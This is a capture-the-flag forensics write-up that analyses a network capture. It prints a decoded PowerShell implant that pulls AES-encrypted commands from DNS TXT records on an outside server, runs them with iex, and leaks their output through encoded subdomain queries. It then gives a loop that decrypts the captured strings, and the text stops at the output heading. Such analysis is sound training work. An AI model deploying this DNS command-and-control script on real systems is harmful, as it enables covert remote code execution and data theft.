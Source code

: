 # Automation
> Write-up author: jon-brandy
## DESCRIPTION:
Vinyr's threat intelligence is monitoring closely all APT groups from every possible galaxy, especially the most dangerous one, longhir. 
As stated by an anonymous threat intelligence officer, the malicious actors tend to automate their initial post-exploitation enumeration so they can have less on-keyboard time. 
You can find such an example in the provided network capture generated by a recent incident. Analyse it and find out what they are up to.
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

![image](https://user-images.githubusercontent.com/70703371/212104427-d1ae4793-d869-4710-b6a5-af4cbe472660.png)


![image](https://user-images.githubusercontent.com/70703371/212104385-f7725ea9-1a52-4212-bb3b-2b533353534f.png)


![image](https://user-images.githubusercontent.com/70703371/212104516-32695053-7d9e-45bd-9a03-30faa31e2150.png)


2. When i traversing through the TCP stream, i found this long base64 strings.

![image](https://user-images.githubusercontent.com/70703371/212208236-ae1fe04b-3351-4eca-b4f0-d6d2959dc57d.png)


3. Let's decode it with cyberchef.

> RESULT

```ps1
function Create-AesManagedObject($key, $IV) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
     
        }
        else {
            $aesManaged.IV = $IV
     

        }
    }
    if ($key) {

        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Create-AesKey() {
  
    $aesManaged = Create-AesManagedObject $key $IV
    [System.Convert]::ToBase64String($aesManaged.Key)
}

function Encrypt-String($key, $unencryptedString) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($unencryptedString)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    $aesManaged.Dispose()
    [System.BitConverter]::ToString($fullData).replace("-","")
}

function Decrypt-String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
    $IV = $bytes[0..15]
    $aesManaged = Create-AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor();
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
    $aesManaged.Dispose()
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
}

filter parts($query) { $t = $_; 0..[math]::floor($t.length / $query) | % { $t.substring($query * $_, [math]::min($query, $t.length - $query * $_)) }} 
$key = "a1E4MUtycWswTmtrMHdqdg=="
$out = Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189|Select-Object -Property Strings;
for ($num = 0 ; $num -le $out.Length-2; $num++){
$encryptedString = $out[$num].Strings[0]
$backToPlainText = Decrypt-String $key $encryptedString
$output = iex $backToPlainText;$pr = Encrypt-String $key $output|parts 32
Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189
for ($ans = 0; $ans -lt $pr.length-1; $ans++){
$domain = -join($pr[$ans],".windowsliveupdater.com")
Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
    }
Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189
}
```

4. Got a powershell script.
5. Seems like the script is doing encryption and decryption using a specified key.
6. Based on the script, we could find the encrypted strings in the DNS packets with ip `147.182.172.189`. Let's filter the packets then.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/212211666-e37a95bd-6a68-4802-acfa-fea724c7527d.png)


7. Got several base64 strings.

![image](https://user-images.githubusercontent.com/70703371/212211806-a1940476-5383-45a9-8127-3924a100f22c.png)


8. Let's modify the script by adding a loop to decrypt every base64 strings with the specified key.

> THE SCRIPT

```ps1
function Create-AesManagedObject($key, $IV) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        }
        else {
            $aesManaged.IV = $IV
        }
    }
    if ($key) {
        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Decrypt-String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
    $IV = $bytes[0..15]
    $aesManaged = Create-AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor();
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
    $aesManaged.Dispose()
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
}

$key = "a1E4MUtycWswTmtrMHdqdg=="

$encryptedString = ("Ifu1yiK5RMABD4wno66axIGZuj1HXezG5gxzpdLO6ws=","hhpgWsOli4AnW9g/7TM4rcYyvDNky4yZvLVJ0olX5oA=","58v04KhrSziOyRaMLvKM+JrCHpM4WmvBT/wYTRKDw2s=","eTtfUgcchm/R27YJDP0iWnXHy02ijScdI4tUqAVPKGf3nsBE28fDUbq0C8CnUnJC57lxUMYFSqHpB5bhoVTYafNZ8+ijnMwAMy4hp0O4FeH0Xo69ahI8ndUfIsiD/Bru","BbvWcWhRToPqTupwX6Kf7A0jrOdYWumqaMRz6uPcnvaDvRKY2+eAl0qT3Iy1kUGWGSEoRu7MjqxYmek78uvzMTaH88cWwlgUJqr1vsr1CsxCwS/KBYJXhulyBcMMYOtcqImMiU3x0RzlsFXTUf1giNF2qZUDthUN7Z8AIwvmz0a+5aUTegq/pPFsK0i7YNZsK7JEmz+wQ7Ds/UU5+SsubWYdtxn+lxw58XqHxyAYAo0=","vJxlcLDI/0sPurvacG0iFbstwyxtk/el9czGxTAjYBmUZEcD63bco9uzSHDoTvP1ZU9ae5VW7Jnv9jsZHLsOs8dvxsIMVMzj1ItGo3dT+QrpsB4M9wW5clUuDeF/C3lwCRmYYFSLN/cUNOH5++YnX66b1iHUJTBCqLxiEfThk5A=","M3/+2RJ/qY4O+nclGPEvJMIJI4U6SF6VL8ANpz9Y6mSHwuUyg4iBrMrtSsfpA2bh")

foreach ($i in $encryptedString) {
        $result = Decrypt-String $key $i
        echo $result
}

```

> OUTPUT
